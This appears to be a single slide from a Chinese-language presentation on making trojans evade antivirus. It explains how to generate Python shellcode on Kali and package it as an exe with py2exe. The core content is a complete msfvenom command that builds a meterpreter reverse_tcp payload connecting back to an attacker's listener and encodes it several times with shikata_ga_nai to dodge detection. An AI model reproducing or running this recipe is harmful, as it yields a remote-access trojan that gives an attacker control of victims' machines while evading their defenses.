

木马免杀——生成shellcode转为exe文件

先使用kali主机生成shellcode.py源码，然后使用py2exe文件将其转为exe文件
msfvenom -p python/meterpreter/reverse_tcp lhost=192.168.31.54 lport=5555  -e x86/shikata_ga_nai -i 5  -f py -o /root/shellcode.py